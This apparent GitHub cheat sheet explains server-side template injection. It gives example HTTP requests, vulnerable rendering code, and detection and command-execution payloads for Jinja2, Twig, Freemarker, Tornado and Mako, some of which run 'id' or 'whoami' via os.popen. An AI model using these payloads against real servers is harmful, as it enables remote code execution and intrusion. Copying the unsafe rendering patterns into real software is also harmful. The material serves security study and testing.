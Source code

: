 # Server-Side Template Injection (SSTI)

## Table of Contents
1. [Introduction](#introduction)
2. [How Does SSTI Vulnerability Occur?](#how-does-ssti-vulnerability-occur)
3. [Where to Put an SSTI Payload?](#where-to-put-an-ssti-payload)
4. [Examples of HTTP Requests with SSTI Payloads](#examples-of-http-requests-with-ssti-payloads)
   - [Basic SSTI in a Python Flask/Jinja2 Application](#basic-ssti-in-a-python-flaskjinja2-application)
   - [Exploiting SSTI to Execute Arbitrary Code](#exploiting-ssti-to-execute-arbitrary-code)
   - [SSTI in a PHP Application Using Twig](#ssti-in-a-php-application-using-twig)
   - [Java Application Using Freemarker](#java-application-using-freemarker)
5. [Breaking Out of Expressions](#breaking-out-of-expressions)
6. [SSTI Payloads for Detection](#ssti-payloads-for-detection)
7. [SSTI Payloads for Specific Template Engines](#ssti-payloads-for-specific-template-engines)
   - [Tornado (Python)](#tornado-python)
   - [Mako (Python)](#mako-python)

---

## Introduction
**Server-Side Template Injection (SSTI)** is a web application vulnerability that occurs when user input is embedded directly into a server-side template, allowing an attacker to execute arbitrary code on the server. This vulnerability arises when the application fails to properly sanitize user input before using it in a template rendering engine.

## How Does SSTI Vulnerability Occur?
SSTI occurs due to insecure handling of template rendering in web applications. It happens when:
1. **User Input is Used in Templates**: The application allows user input to be directly embedded in server-side templates for rendering.
2. **Lack of Input Sanitization**: The user-provided data is not validated, sanitized, or properly escaped, making it possible for malicious input to be interpreted as template code.
3. **Insecure Template Engines**: Some template engines allow code execution or direct access to server resources if provided with crafted input.

Popular template engines vulnerable to SSTI include Jinja2 (Python), Twig (PHP), Freemarker (Java), and others.

## Where to Put an SSTI Payload?
An SSTI payload is placed in any input field, URL parameter, or HTTP header where the data is used in server-side templates. Common areas include:
- **Form fields that are used in rendering responses** (e.g., feedback forms, profile descriptions).
- **URL parameters that affect template rendering**.
- **HTTP request headers, if used in templates**.

## Examples of HTTP Requests with SSTI Payloads
### Basic SSTI in a Python Flask/Jinja2 Application
**Malicious Payload (`{{7*7}}`)**:
- When rendered in Jinja2, this payload evaluates `7*7` and returns `49`.

**Example HTTP Request**:
```http
GET /greeting?name={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```

**Vulnerable Code Example**:
```python
return render_template('greeting.html', name=request.args.get('name'))
```

### Exploiting SSTI to Execute Arbitrary Code
**Malicious Payload for Jinja2 (`{{config.__class__.__init__.__globals__['os'].popen('id').read()}}`)**:

**Example HTTP Request**:
```http
POST /feedback HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 82

message={{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```

### SSTI in a PHP Application Using Twig
**Malicious Payload (`{{7*7}}`)**:
- In Twig, this would be evaluated and produce `49`.

**Example HTTP Request**:
```http
GET /profile?bio={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```

**Vulnerable Code Example**:
```php
echo $twig->render('profile.html', ['bio' => $_GET['bio']]);
```

### Java Application Using Freemarker
**Malicious Payload (`${7*7}`)**:
- In Freemarker, `${7*7}` would evaluate to `49`.

**Example HTTP Request**:
```http
POST /submit HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

comment=${7*7}
```

**Vulnerable Code Example**:
```java
template.process(dataModel, out);
```

## Breaking Out of Expressions
In more complex cases, the vulnerability might not be evident from a simple mathematical operation. For example, if user input is placed within a template expression, like so:
```python
greeting = getQueryParameter('greeting')
engine.render("Hello {{" + greeting + "}}", data)
```
- **Injection Example:**
   ```
   http://vulnerable-website.com/?greeting=data.username}}
   ```

## SSTI Payloads for Detection
```html
${{<%[%'"}}%\
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

## SSTI Payloads for Specific Template Engines
### Tornado (Python)
**Detection Payload**:
```python
{{7*7}}
```

**Execution Payload**:
```python
{{__import__('os').popen('whoami').read()}}
```

### Mako (Python)
**Detection Payload**:
```python
${7*7}
```

**Execution Payload**:
```python
${self.module.cache.util.os.popen("whoami").read()}
```

---
